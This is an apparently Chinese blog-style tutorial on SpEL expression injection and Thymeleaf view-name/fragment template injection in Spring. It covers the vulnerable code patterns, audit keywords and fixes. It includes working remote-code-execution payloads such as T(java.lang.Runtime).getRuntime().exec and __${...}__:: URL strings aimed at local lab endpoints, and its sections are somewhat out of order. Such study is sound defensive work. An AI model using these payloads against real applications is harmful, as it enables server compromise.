Spel表达式注入&相关组件的Spel表达式注入分析
目录
Spel表达式注入
Spel表达式是spring下的一种表达式语言，若目标程序Spel表达式可控且能被解析，则可能会导致RCE等安全问题。
环境搭建
起一个项目，然后导入maven即可
<properties>
<org.springframework.version>5.0.8.RELEASE</org.springframework.version>
</properties>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-expression</artifactId>
<version>${org.springframework.version}</version>
</dependency>
漏洞原理
我们来看一段有漏洞的代码，假设expression2 变量用户可控
ExpressionParser parser = new SpelExpressionParser();
String expression2 = "T(java.lang.Runtime).getRuntime().exec('calc')"; //假设expression2 变量用户可控，这个变量的内容便是spel表达式
//也可以用new关键字 String expression2 = "new ProcessBuilder('calc').start()";
Expression result2 = parser.parseExpression(expression2);
result2.getValue();
用户传入恶意spel表达式后，在第三行parseExpression方法被解析，第四行在getValue方法被执行spel表达式内容，完成RCE
用户传入的Spel表达式中， T(java.lang.Runtime)用于实例化某个类，实例化后我们可以调用其内部方法。也可以用new关键字，就像注释中的一行
有些时候会对spel进行鉴别，即满足一定条件的字符串才会被认为是表达式，比如这样
ExpressionParser parser = new SpelExpressionParser();
ParserContext parserContext = new ParserContext() {
@Override
public boolean isTemplate() {
return true;
}
@Override
public String getExpressionPrefix() {
return "#{";
}
@Override
public String getExpressionSuffix() {
return "}";
}
};
String template = "#{'hello '}#{'freebuf!'}";
Expression expression = parser.parseExpression(template, parserContext);
System.out.println(expression.getValue());
通过getExpressionPrefix和getExpressionPrefix方法，确定在 #{..} 中的字符串才为SPEL表达式
审计关键字
org.springframework.expression.spel.standard
getValue()
parseExpression()
修复
SimpleEvaluationContext 和StandardEvaluationContext
StandardEvaluationContext 是默认的上下文环境，对spel解析不设限制
SimpleEvaluationContext 是受限的上下文环境，不允许spel执行构造方法，java类型引用，bean类型引用
修复后代码
ExpressionParser parser = new SpelExpressionParser();
String expression2 = "new ProcessBuilder('calc').start()";
Expression result2 = parser.parseExpression(expression2);
EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
result2.getValue(context);
运行结果

ref:https://www.freebuf.com/articles/network/250026.html
使用如下项目搭建环境，idea打开其pom.xml即可
https://github.com/veracode-research/spring-view-manipulation/
Thymeleadf 模板注入（基于Spel表达式注入）
简介
Thymeleaf是一个服务端模板引擎，spring官方支持该引擎。
Thymeleaf运行逻辑
来到项目中的HelloControleer 第16行
@GetMapping("/")
public String index(Model model) {
model.addAttribute("message", "happy birthday");
return "welcome";
}
这里代码逻辑是spring的，接收所有url为 / 的请求到此控制器进行处理。
然后向model添加键值对，model中的数据会随着要返回的视图一起返回给前端，此处键为message，值为happy birthday
然后return一行返回了 /templates/welcome.html 这个视图 （相当于给welcome添加前缀templates/ ，后缀.html)
我们来看看welcome.html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
<h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
<span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
我们看倒数第三行th:text 内部有 ${message} ,${...}里面就是SPEL表达式或者ognl表达式
另外，如果返回模板时return的内容中含有 ::，则该字符串会被当作表达式处理
同时在表达式中还有 \${..} 这种预处理表达式，在其中的内容会更优先处理一次（预处理）
就像这种代码
@GetMapping("/path")
public String path(@RequestParam String lang) {
return "user/" + lang + "/welcome"; //template path is tainted
}
注意这里的payload我并没有用到预处理表达式，因为section中参数本来就是selector的内容，本来就会被解析，没必要再套一层预处理。
注意这里的payload也要加上\${..}

那么这串代码呢？
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
log.info("Retrieving " + document);
//returns void, so view name is taken from URI
}
和上面的思路一样，但是payload需要微微调整一下
http://127.0.0.1:8090/doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x
至于为什么templatename必须被__${}包围，是因为实际上的templatename为/doc/xxxxxx 我们可控的是第二层路由，为了保证第二层路由里的表达式能够顺利被执行而不受前面的 /doc/ 干扰命令，所以用${}__预处理一下
至于为什么selecor前面要有一个.原因是这样的
模板名获取实际上是通过这个函数拿到的

它会对url获得的模板名进行修正，比如增加前缀后缀（默认为空），以及调用方法transformPath处理
我们跟进此方法并注意断点打到的地方

this.stripExtension在这种情况默认为true，也就是说会调用StringUtils.stripFilenameExtension来处理我们的模板名
StringUtils.stripFilenameExtension 会搜索字符串中最后一个.符号的索引位置，并截取.之前的内容返回。
所以如果我们的payload selector不加 . 那么截取后的表达式会变成这样，没有了:: ，无法正确被当作表达式解析

但如果加了 .,那么被截取后表达式会变成这样，:: 还在，能被当作表达式解析

弄懂原理后就会发现这样构造payload也可以
http://127.0.0.1:8090/doc/::__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__.a
只要配置上ResponseBody或RestController，那么就不会进行视图解析相关内容，而是直接返回

redirect:
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
return "redirect:" + url; //FP as redirects are not resolved as expressions
}
在返回值前加字符串redirect: ，表示该视图的解析不再由 Spring ThymeleafView来进行解析，而是由 RedirectView 来进行解析
HttpServletResponse
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
log.info("Retrieving " + document); //FP
}
只需要在参数里加上 HttpServletResponse response，spring就不会再对视图进行解析。 只对这种直接从url获取模板名的控制器有效

防御
这个项目也提供了三个控制器的修复版
ResponseBody RestController
@GetMapping("/safe/fragment")
@ResponseBody
public String safeFragment(@RequestParam String section) {
return "welcome :: " + section; //FP, as @ResponseBody annotation tells Spring to process the return values as body, instead of view name
}
注意templatename必须被 \${} 包围，selector第一个字符必须为.
如果我们lang赋值为 \${4*4}::123，可以发现预处理表达式里的内容被解析了，并以报错的形式返回（注意paylaod需要urlencode）

那么这个:: 到底意味着什么呢，我们上面的payload后面为什么还要跟着一串字符呢？
::是片段选择器的分隔符，分割templatename和selector，即templatename::selector，templatename和selector都会被当作表达式的部分解析一起解析，即实际上解析的内容是 \~{templatename::selector}
比如在下面的代码中，welcome是templatename，我们可以选择/templates/welcome.html 的selector来指定页面显示何种内容
@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
return "welcome :: " + section; //fragment is tainted
}
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header"> //如果selector 是header，那么只显示该div中的内容
<h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main"> ////如果selector 是main，那么只显示该div中的内容
<span th:text="'Hello, ' + ${message}"></span>
</div>
</html>

还有下图这种神奇代码
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
log.info("Retrieving " + document);
//returns void, so view name is taken from URI
}
代码并没有返回视图，但是注意路由中的{document}，这里会直接把/doc/{document}用作视图名返回

Thymeleaf 模板注入
如果我们可以控制表达式的内容，那么就可以实现Spel表达式注入了
根据上一小节的知识，我们可以很轻松的构造下面这串代码的payload，通过报错把命令执行结果带出来
@GetMapping("/path")
public String path(@RequestParam String lang) {
return "user/" + lang + "/welcome"; //template path is tainted
}
payload:__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::

那么这串代码呢？我们只有selector可控
@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
return "welcome :: " + section; //fragment is tainted
}
实战中可以发现是无法直接得到回显的（因为不报错），但是命令依旧会被解析执行，我们可以通过dns外带等方式带出结果
会发现第三行和倒数第三行都用到了th: 这个前缀，这个前缀就是使用Thymeleaf的标志，用于调用Thymeleaf内部的方法。